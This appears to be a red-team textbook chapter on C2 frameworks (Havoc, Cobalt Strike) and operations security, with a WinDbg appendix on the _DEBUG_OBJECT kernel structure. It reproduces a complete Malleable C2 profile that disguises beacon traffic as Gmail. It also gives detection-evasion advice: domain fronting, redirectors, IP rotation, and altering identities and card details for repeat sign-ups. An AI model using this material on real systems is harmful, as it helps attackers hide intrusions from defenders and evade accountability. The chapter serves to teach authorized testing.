
The HAVOC C2 Teamserver Console
Importantly, C2 Servers create listeners. These are network endpoints/services that wait for incoming connections from agents. They operate over various network protocols (i.e., SMB, TCP, HTTP, DNS etc.), and define how agents communicate with the C2 infrastructure and act as the entry point for establishing and maintaining C2 communication. They are responsible for:
- Receiving callbacks from agents
- Negotiating communication parameters
- Delivering payloads and tasks
- Maintaining active sessions
Typically, operators use the C2 Client to configure a listener, then the C2 Server stores and manages it. They are fundamental components of the C2 Infrastructure, as they act as the bridge between compromised endpoints and the rest of the attacker's control infrastructure. Without them, agents would have no method or location (IP Address, Port Number, Network Protocol, and Authentication Settings) to contact the C2 server.
C2 Clients
The C2 Client is the interface where the attacker manages their operation. It provides a number of functions for the attacker, allowing them to:
- Issue Commands: Tell the infected systems to collect files, execute tasks, or spread malware.
- Automate Tasks: Save time on repetitive ativities.
- Monitoor in Real TIme: Live updates on what is happening across compromised systems.
- Customize Attacks: Write scripts or add plugins to adapt to specific targets.
Where the C2 Server is the engine that facilitates operations, the C2 Client is the dashboard that shares information with the operators about the state of the engagement, allows operators to configure payloads for target systems, and send commands to the C2 server to be executed on target systems. Essentially, the C2 Client is the console where each operator observes the state of the engagement and initiates their own contributions.

The HAVOC C2 Client
C2 Agents
C2 Agents are small pieces of software installed on compromised systems that connect the infected device back to the C2 Server and carries out the attacker's commands. Once a system is infected, the agent calls back to the C2 server. This can happen through encrypted web traffic (i.e. HTTPS), DNS Tunneling, or other covert channels. The agent waits for instructions and then executes commands. They are designed to be stealthy. Often, they mimic legitimate processes (i.e., svchost.exe) or use fileless malware techniques to stay under the radar. Sometimes, they are referred to as C2 Implants or bots depending on the C2 framework you are using.

The HAVOC
demon.x64.exeC2 Agent Executing On a Target System
Types of C2 Frameworks
When it boils down to it, attackers use two types of C2 Framework: Custom-Built and Off-the-Shelf. Some examples of Custom-Built frameworks include:
These are custom software designed by the attacker to manage a certain engagement or type of attack. Some examples of Off-the-Shelf frameworks include:
These are a mix of commercial and open-source products designed for right out of the box use by researchers, testers, and operators. Since they are publicly available, their default configurations likely produce known malicious signatures that security monitoring systems will be alerted to, so it is always important to know the tools you are using and how they will appear to the tools you are using.
OPSEC Considerations:
Any good C2 Framework for Red Teaming will have an intuitive user interface, advanced automation capabilities, advanced encryption and authentication features, and extensive 3rd party integrations. But using a good product right out of the box is never enough to be truly stealthy during an engagement. When using C2 Frameworks, it is important to:
- Disguise Communications: Make your traffic look normal. Since organizations rely on standard protocols like HTTP/HTTPS, DNS, and SMTP, blocking or flagging suspicious traffic risks disrupting legitimate operations.
- Obfuscate Activities: Use obfuscation techniques to cover your tracks. Some examples include:
- Domain Fronting: A technique where you route traffic through well-known services like content-delivery networks
- Impersonating legitimate protocols
- Deploying polymorphic malware that constantly changes form These techniques hinder signature-based detection tools, as they cannot keep up with constantly shifting patterns.
- Mask Network Activity: Utilize redirectors or multi-stage C2 servers to act as a go-between, funneling traffic from compromised systems to the actual C2 server. This masks the origin of traffic, making it difficult to track the location of the attacker.
This last point about redirectors is particularly important. Modern Red Teams rarely connect agents against their primary C2 Server (the Teamserver). Instead, they seperate the long-term control server from the agents with short-term, disposable ingress points. This is essentially wht redirectors are. They mask the true IP address of the C2 server, ensuring that if the blue team disovers and blocks the discovered IP, only the redirector is burned, and the core infrastructure remains healthy and undisturbed. There are essentially two types of redirector:
- Dumb Redirectors: Simply forward all traffic on a specific port to the C2 Server using a service like
iptablesorsocat. - Smart Redirectors: Use web servers (i.e.,
ApacheorNginx) to process incoming HTTP/S traffic so that only verified, filtered traffic can make it back to the C2 server.
We will review Red Team OPSEC in more detail later in this chapter.
C2 Frameworks in Action
Agents are frequently deployed via payloads, specialized code segments engineered for particular actions on the target, such as establishing remote shells, installing backdoors, harvesting credentials, or deploying additional malicious modules. Payloads can be staged or stageless. A staged payload is broken up into parts: the stager and the stages. The stager is a small, first-stage payload used to establish initial access to a target system, then retrieve the next component of the payload. Stages comprise additional components of the payload that serve different purposes. For instance, a dropper is a payload component that installs some other, malicious program onto the system (such as a virus, ransomware, a backdoor, etc.). Additional components may either be packaged with the dropper or installed over the internet. Loaders place a malicious payload component into memory so that it may be executed. Typically they are used to evade disk-based detection mechanisms, as executable components are either decrypted or installed directly into memory, without ever touching the hard drive. Other staged components can be used to accomplish specific tasks, such as injectors, decryptors, and environment checkers, but ultimately each stage is geared toward installing the agent on the target system to establish a communication channel with the C2 Server. Stageless payloads contain everything they need to run the agent in a single delivery. No additional downloads are required after for execution.
Once an agent is installed and executed on the target system, it sends a callback to the C2 Server, creating a session identifier and establishing trust between the server and the agent. After sending the initial callback, most agents will switch to beaconing mode. Essentially, a beacon is a periodic outbound message sent by the agent to the C2 server, that typically signals that the agent is alive, requests new tasking, and sends queued results/metadata back to the C2 server.
Tasking describes the mechanism by which a C2 server issues instructions to an agent, and the agent executes those instructions and returns the results. In many frameworks, a task is the instruction itself, whereas a job is the execution instance of that task on the agent. A heartbeat is a specialized form of beacon, which simply confirms that the agent is still running on the target. It contains minimal or no data, and is often used when no tasks are queued. In many frameworks, every beacon implicitly acts as a heartbeat. Heartbeats help operators distinguish between dormant but healthy agents and disconnected or terminated agents.
Jitter introduces random variation into beacon or heartbeat timing. Instead of beaconing over an exact interval (i.e., every 60 seconds), jitter modifies the delay so that it is more random (i.e., 60 seconds ± 20%). Jitter is important because fixed intervals are very easy to detect. Jitter makes traffic appear more human or application-like, making C2 operations more difficult to detect.
Advanced frameworks (like Cobalt Strike) implement Malleable Profiles, which allow operators to customimze how the C2 traffic appears on the network, granting them the ability to make it appear more like normal network traffic and evade detection. These are small programs that define provide a template describing C2 beacon should look. For instance, here is an example of a Malleable C2 Profile designed to disguise beacon traffic as GMail traffic on a network. It was published by BC-Security, a group of cybersecurity engineers and offensive security enthusiasts that actively maintain and update Powershell Empire in their spare time ;-). Credit to @ChrisTruncer for authoring this profile:
# Make requests look like GMail web requests
#
# Author: @ChrisTruncer
https-certificate {
set CN "gmail.com";
set O "Google GMail";
set C "US";
set L "Mountain View";
set OU "Google Mail";
set ST "CA";
set validity "365";
}
set sleeptime "60000";
set pipename "interprocess_##";
set spawnto "userinit.exe";
set jitter "15";
set dns_idle "8.8.4.4";
http-get {
set uri "/_/scs/mail-static/_/js/";
client {
metadata {
base64;
prepend "OSID=";
header "Cookie";
}
header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
header "Accept-Language" "en-US,en;q=0.5";
header "Accept-Encoding" "gzip, deflate";
header "DNT" "1";
}
server {
header "X-Content-Type-Options" "nosniff";
header "X-Frame-Options" "SAMEORIGIN";
header "Cache-Control" "public, max-age=31536000";
header "X-XSS-Protection" "1; mode=block";
header "Server" "GSE";
header "Alternate-Protocol" "443:quic,p=1";
output{
prepend "try(";
prepend "O(L.Oa(),\"sy580\")";
prepend "N(L.Oa(),\"sy580\");P(L.Oa(),\"sy580\");";
prepend ")catch(e)(_DumpException(e))";
prepend "try(";
prepend "O(L.Oa(),\"sy558\");";
prepend "N(L.Oa(),\"sy558\");P(L.Oa(),\"sy558\");";
prepend ")catch(e)(_DumpException(e))";
prepend "try(";
append "var f2=function(a)(a=a.wa;return\"application/chromium-bookmark-folder\"==a||\"application/chromium-root-folder\"==a||\"application/vnd.google-apps.folder\"==a||\"application/vnd.google-apps.photoalbum\"==a||\"application/vnd.google-apps.rollupphotoalbum\"==a)";
append ",g2=function(a)(return a.ra),s8d=function(a)(return a?hb(a,function(a)(return new UP(a)):[]),h2=function(a)(switch(a)(case \"all\":case \"docs-images\":case \"docs-images-and-videos\":case \"docs-videos\":case \"documents\":case \"drawings\":case \"folders\":case \"forms\":case \"pdfs\":case \"presentations\":case \"sites\":case \"spreadsheets\":case \"tables\":return!0)return!1); O(L.Oa(),\"sy588\")";
print;
}
}
}
http-post {
set uri "/mail/u/0/";
client {
parameter "ui" "d3244c4707";
parameter "hop" "6928632";
parameter "start" "0";
header "Content-Type" "application/x-www-form-urlencoded;charset=utf-8";
id {
base64;
prepend "OSID=";
header "Cookie";
}
output{
base64;
print;
}
}
server {
header "X-Content-Type-Options" "nosniff";
header "X-Frame-Options" "SAMEORIGIN";
header "Cache-Control" "no-cache, no-store, max-age=0, must-revalidate";
header "X-XSS-Protection" "1; mode=block";
header "Server" "GSE";
output {
prepend "[[[\"apm\",\"";
append "\"]";
append ",[\"ci\",[]";
append "]";
append ",[\"cm\",[]";
append ",[]";
append "]";
append "],'dbb8796a80d45e1f']";
print;
}
}
}
Source: BC-Security GitHub
A description of the syntax of the Malleable C2 Profile language can be found here.
C2 Frameworks are important because they offer a continuous, secure, and manageable connection between the attacker and their targeted systems. We will review this subject in more technical depth in the chapters that follow.
Operations Security
Operations Security (OpSec) is a process that identifies critical information to determine if friently actions can be observed by enemy intelligence, determines if information obtained by adversaries could be interpreted to be useful to them, and executes selected measures that eliminate or reduce adversary exploitation of friendly critical information. It is a term derived from the United States Military, stemming back to the Vietnam War Operation, Codename:Purple Dragon, that was later adopted by the intelligence and security communities. As it relates to red teams, they do not want the blue team to "connect the dots". Each time the red team interacts with their target organization, it leaves behind a "dot". With enough dots, the blue team can identify red team tools and infrastrucutre, then prevent or mitigate attacks after they are fully realized. This can be especially frustrating if the blue team connects the dots before the red team knows it. The red team can keep the blue team from connecting the dots by either not leaving any, or only leaving dots that are not associated with one another.
As an attacker, be wary of revealing the following information during an attack:
- Hostname
- Domain Name
- Avoid typosquating the target domain
- Use WHOIS privacy
- Use one domain for every red team act
- Browser User-Agent
- Access to payload URLs and Landing Pages
- Source IP Addresses
- Never use the same IP address for two activities that you don't want assocaited with each other
- IP addresses should make sense relative to your actions from the IP
- When logging into user accounts:
- Use one IP address per user account and keep using the same IP for all subsequent logins
- Login from an IP address in the same region as the user
- Login from a service provider that makes sense for the target user.
- Avoid known-suspicious IPs: TOR, Proxies, etc.
- Get new source IP addresses from:
- Residential IP address Providers:
- Luminati (Now Bright Data)
- Smartproxy
- IP Address Rotation Services:
- GeoSurf
- Oxylabs
- Mobile hotspots
- Wifi hotspots
- VPNs (free or paid)
- Cloud Service Providers
- TOR (when required)
- Residential IP address Providers:
Inspect each source IP for "tells" and build your own vetted list
- Third-party services
- Assess whether red team actions are likely to violate TOS
- Modify identity (name, email, billing address, phone), credit card numbers, and source IP for repeat sign-ups
- Assess whether your registration information is likely to be exposed
- Assess whether use of the same account across multiple projects is likely to leak information about the red team or its customers
- Can the resource owner be identified by outsiders?
- Can relationships between multiple resources be assocaited with each other?
- Is there a reasonable level of trust with the resource provider?
- SSL/TLS certificates and CAs
- Watch out for data leaks in certificate transparency logs
- Customer names
- Email Addresses
- Phone Numbers
- No default or self-signed certificates. Both can easily be flagged or blocked by Censys.io search
- Let's Encrypt certificates may be suspicious, as they are the default CA in lots of hacking tutorials, though they are used by legitimate services as well.
Let's Encrypt Certificates: Digital certificates provided by the non-profit Certificate Authority (CA) Let's Encrypt, who offer SSL/TLS certificates at no cost, making secure connections accessible to a wider range of users and organizations. These certificates have a validity period of 90 days.
- Watch out for data leaks in certificate transparency logs
- Network Services
- Don't expose services to the internet that aren't required
- Use SSH port forwarding for acceess from the red team
- Change all default settings on hacking tools that listen on an Internet-facing port
- Use redirectors liberally and spread them across multiple CSPs
- Use Common web services (Apache, Nginx) to redirect HTTP/S traffic to servers run by hacking tools
- Don't expose services to the internet that aren't required
- Assess whether red team actions are likely to violate TOS
Know the tools that you are using
- Confirm that the tool isn't harming you
- Confirm that how the tool/attack looks from the defenders perspective isn't suspicious
- Confirm that the attack looks believable from the perspective of the target user.
Ultimately, the goal with OpSec is to reduce mission compromise by identifying and elminimating unintentional data leaks through behavior, communications, or logistics. Many red teams fail to maintain strict OpSec because of reliance on pre-configured tools, careless infrastructure setups, or insufficient separation of operational identities. Some consequences include:
- Burned C2 Infrastruture (IP/Domain Blacklisting)
- Attribution of activity to consulting firms or internal threat emulation teams
- Legal complications in regulated industries if internal users are affected
Some notable cases include:
- APT28 (FancyBear): In late May of 2018, the U.S. Department of Justice announced the high-profile disruption of APT28's VPNFilter Infrastructure. This was due to:
- Shared Registrant and Certificate Metadata
- Reuse of Hosting Providers
- Public Access to C2 Domain Infrastructure through DNS
- Poorly Routed Malware Callbacks
- Public reports (i.e., CISA, NDS, Inc.) show clients identifying Red Team prematurely due to:
- Reused Beacon Patterns
- Leaked Usernames
- C2 Reuse
- Suspicious Protocol Use (i.e., constant packet length, Base64 blobs in parameters)
Red Teams must treat every engagement as a live adversarial environment. Even if the target is known to be passive or "simulated", every artifact left behind is subject to future review, correlation, or forensic discovery.
The Five-Step OpSec Process
The formal OpSec process, standardized by the U.S. Department of Defense consists of five iterative steps. While originally developed for military use, the same structure appleis to offensive cyber operations. Understanding an applying this process reduces the risk of operational exposure due to leaks in infrastructure, behavior, or tooling.
Step 1: Identify Critical Information
Identify what must be protected. In the context of Red Teaming, critical information includes:
- IP Address ranges of infrastructure (C2, redirectors, stagers)
- Beaconing patterns, headers, or payload signatures
- Operator metadata (usernames, email headers, browser fingerprints)
- Domain registration data
- TTPs that can be fingerprinted
Focus on what could provide adversaries with actionable intelligence if discovered. Document all operational assets, personas, and artifacts before deployment. Treat metadata as data.
Step 2: Analyze Threats
Assess who might be observing or analyzing your activity and what their capabilities are. The interesting thing here is that you need to take advantage of any vulnerabilities in their Operations Security. Red Team operators should map the detection surface against potential observers, being:
- Internal Blue Team with Behavioral Detection
- SIEMs Aggregating Logs Across Endpoints and Networks
- Threat Intelligence Platforms Correlating Passive DNS, TLS Certificates or ASN data
- External Scanners like Shodan, Censys, and Zoomeye
Also, consider that threats may not always be your target. Aside from external TI platforms and external scanners, consider that:
- A unauthorized person trying to obtain mission critical information
- A person who intentionally or unintentionally supplies mission critical information to an adversary
- A public post detailing mission critical information
- A person who shoulder-surfs should all be considered threats as well. Question who has visibility into your infrastructure. Can DNS or IP behavior trigger alerts and do reused payloads match known malware signatures?
Step 3: Vulnerability Analysis
After identifying critical data and adversaries, analyze how this information could leak. This often includes:
- Misconfigured DNS (i.e., wildcard records exposing all subdomains)
- Use of commercial VPN IPs instead of private infrastructure
- DNS resolutions during payload testing (sandbox leaks)
- Unencrypted communication during staging
- Beacon jitter or frequency that follow default settings
Audit your tools, infrastructure, and operator habits. Be able to answer the following question:
- What critical information indicators (friendly actions and open-source intelligence) will the planned operation generate through friendly activities?
- What indicators can the target actually observe/collect?
- What indicators can the target use to the disadvantage of friendly forces?
Base on your answer to these questions, rank the criticality of each identified vulnerability.
Step 4: Risk Assessment
Risk assessments estimate an adversary's capability to exploit a vulnerability and the potential effects such exploitation has on operations. During this step, you need to calculate the likelihood and impact of each identified vulnerability. Consider:
- What is the likelihood that the Blue Team detects our domain/IP via passive monitoring?
- What is the impact if our infrastructure is blacklisted mid-engagement?
- How easily can our TTPs be attributed to a known framework?
Performing thorough risk assessments help red teams avoid unnecessary risks and accept necessary risks when the cost of mitigation outweights the benefit. Understand your security posture before you take any potentially alertable actions. For instance, using a default Cobalt Strike malleable profile or reusing open-source implants increases detection probability due to signature matching, therefore you should modify the configuration of your tools before using them to avoid quick and easy detection.
Step 5: Apply Countermeasures
Applying OpSec principles and using countermeasures preserves the operation by preventing the target from discovering you or completely removing you from their systems after discovery. Once vulnerabilities are prioritized, apply technical and procedural controls. Counter measures may include:
- CDN Masking
- IP Rotation
- Use of custom payloads with obfuscated indicators
- Payload testing in sandboxed environments
- TLS certificate spoofing
- Isolated, single-use domains and redirectors
- Domain Fronting
Countermeasures should be measurable for performance and effectiveness. It is best practice to automate infrastructure deployment usinc Infrastructure as Code (IaC) templates with OpSec constrains built-in.
Using OpSec with C2 Frameworks
Appendix X: Reversing the _DEBUG_OBJECT with WinDBG
Introduction
The _DEBUG_OBJECT is a kernel object that represents a debugging session between a debugger and one or more "debuggee" processes. It is used to track which processes are being debugger, queue debug events (i.e., breakpoints, exceptions, thread creation, module loads, etc.), and act as a communication bridge between the debugger and the target process.
Windows developers use two main functions to interact with _DEBUG_OBJECT objects:
-
NtCreateDebugObject: A low-level Native API that the Windows kernel uses to instantiate a new Debug Object in kernel memory.NTSTATUS NtCreateDebugObject( [out] PHANDLE DebugObjectHandle, [in] ACCESS_MASK DesiredAccess, [in] POBJECT_ATTRIBUTES ObjectAttributes, [in] ULONG Flags );- Here is a breakdown of the
NtCreateDebugObjectfunction's parameters:DebugObjectHandle: A pointer to a variable that receives a handle to the newly created object.DesiredAccess: A btimask that tells the OBject Manager exactly what actions the caller intends to perform on the Debug Object.DEBUG_OBJECT_WAIT_STATE_CHANGE(0x0001): Allows the debugger to callNtWaitForDebugEventto queue events (breakpoints, exceptions, etc.)DEBUG_OBJECT_ADD_REMOVE_PROCESS(0x0002): Allows the debugger to attach to/detach from a target process.DEBUG_OBJECT_SET_ATTRIBUTES(0x0004): Allows the debugger to modify object flags, such as theKillProcessOnExitbehavior.DEBUG_ALL_ACCESS(0x000F): A combination of all specific rights plus standard rights (i.e.,Synchronize,Read,Control, etc.) (SeePrivilege Escalation Techniques with Malware-> DuplicateTokenEx() for more details on Standard/Generic rights.)
ObjectAttributes: A pointer to a structure that defines the object's name and security descriptor.Flags: Only supports one flag value, forDEBUG_KILL_ON_CLOSE(0x1), which automatically terminates all debugged processes if the created debug object handle is closed.
NtCreateDebugObjectreturns anNTSTATUSobject, (0x0) upon success, failure otherwise (i.e.,Access Denied).
- Here is a breakdown of the
-
NtDebugActiveProcess: Attaches a given debugging object to a target process.NTSTATUS NtDebugActiveProcess( [in] HANDLE DebugObjectHandle, [in] HANDLE ProcessHandle );- Here is a breakdown of the
NtDebugActiveProcessfunction's parameters: DebugObjectHandle: A handle to the_DEBUG_OBJECTobject which will be attached to the target process.ProcessHandle: A handle to the target process, which is to be debuggedNtDebugActiceProcessreturns anNTSTATUSobject, (0x0) upon success, failure otherwise (i.e.,Port already set).
- Here is a breakdown of the
_DEBUG_OBJECT is an internal kernel object, and its structure is not publicly documented. However, it is visible via symbols in publicly documented code. We can use a debugger, such as WinDbg to discern the structure of the object in memory. Our objective in this section is to use WinDbg to reveal important structural details about the _DEBUG_OBJECT structure in memory and reverse-engineer a C style struct using the gathered information.
Procedure
Requirements
- A Windows Machine (Physical or Virtual)
- Administrative Privileges
- WinDbg Installed
Prerequisites
- We will need to enable kernel debugging on the system, which is disabled by default. Use the following commands to enable kernel debugging on the local kernel:
Then reboot the system so the changes are put into effect.bcdedit /debug on bcdedit /dbgsettings local
Instructions
Step 1: Setting Up Your Debugging Environment
As stated, _DEBUG_OBJECT is a kernel object. As such, we will need to start two debugging sessions: one arbitrary process which runs for the sole purpose of instantiating a _DEBUG_OBJECT which we will analyze, and a kernel debugging session so that we may analyze kernel memory and actually discern the form of the _DEBUG_OBJECT.
First, let's start out kernel debugging session. Open WinDbg and navigate to File -> Start debugging -> Attach to kernel -> Local. Select Ok to start debugging the local kernel:

File

Start debugging->Attach to kernel->Local->Ok
This requires elevated privileges, so allow the program to make changes to the device when prompted. This should reveal the WinDbg command interface and prompt:

If the prompt is some variant of lkd, you have successfully opened a kernel debugging session!
Next, open another, seperate instance of WinDbg, navigate to File -> Start debugging -> Launch executable. This will open a File Explorer window, where you will be asked to select which executable to launch. For our demonstration, we will be using C:\Windows\System32\notepad.exe:

Similarly, this should reveal a command interface and prompt to debug notepad.exe (or whichever other executable you selected). Now, navigate back to the kernel debugging session an type the following command:
lkd> !process 0 1 notepad.exe
This will reveal whether or not our application is actually running on the system and whether or not it is open as a debuggable process: 
Command interface after running our command
This reveals some important information about our process. Take note of your:
PROCESS:ffff808f13e570c0Image:notepad.exeDebugPort:ffff808f1162dae0
The PROCESS value tells us where in kernel memory the EPROCESS object that correlates to the process can be found. The Image value tells us the name of the executable that was loaded into memory for execution, and the DebugPort value tells us where in memory the _DEBUG_OBJECT structure can be found. And with that, we have successfully set up our debugging environment, allowing us to move forward with discerning the structure of _DEBUG_OBJECT.
Step 2: Dumping the Raw Bytes
Now that we know where the DEBUG_OBJECT is, we need to get the actual bytes that make up the structure to discern any of its structural details. First, we need to determine how much space the structure occupies in memory:
lkd> !pool ffff808f1162dae0 # Pass Your Unique DebugPort Value
Running this command will reveal information about a number of related memory regions. The one we are looking for should be marked with an asterisk (*) and a tag *Debu:
